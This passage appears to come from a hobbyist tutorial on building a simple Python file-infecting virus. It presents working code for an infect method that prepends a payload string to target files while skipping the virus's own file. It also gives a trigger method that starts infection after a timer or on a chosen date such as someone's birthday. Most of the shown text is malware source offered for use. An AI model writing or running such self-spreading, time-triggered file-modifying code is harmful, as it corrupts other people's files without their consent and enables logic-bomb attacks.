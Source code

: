 ### Method to infect the files
Here, we will add another method that can infect (insert/prepend) the string in the given filename.

```python
    def infect(self, file_abs_path):
        if os.path.basename(file_abs_path) != "virus.py":
            try:
                f = open(file_abs_path, 'r')
                data = f.read()
                f.close()
                virus = open(file_abs_path, 'w')
                virus.write(self.infect_string + "\n" + data )
                virus.close()
            except Exception as e:
                print(e)
        else:
            pass
```
To prepend the `self.infect_string`, we first read the whole file and keep the contents in a variable `data`;  then add our string before the data and write to the file.

point to be noted, in this example as we are using python files, we need to exclude our own file, right?  :zany_face:

that's why I exclude the filename there in the very first condition.

### Final method that integrates everything
Now, we can first define when to start our virus. 
* Do you want to set a timer (e.g., 60 seconds), then provide input to the `timer` while calling this method.
* Do you want to set a date (e.g., someone's birthday), then provide input to the `target_date` while calling this method.

And, then our primary mission begins. 
1. List all target files by calling the `list_files` method
2. For each file, insert the string using the `infect` method

okay, so, here is our code
```python
    def start_virus_infections(self, timer=None, target_date=None):
        if not isinstance(timer, type(None)):
            time.sleep(timer)
            self.list_files(self.path)
            for target in self.target_file_list:
                self.infect(target)
                
        elif not isinstance(target_date, type(None)):
            today = str(datetime.datetime.today())[:10]
            if str(target_date) == today:
                self.list_files(self.path)
                for target in self.target_file_list:
                    self.infect(target)
                    
        else:
            print("User must provide either a timer or a date using datetime.date()")
```
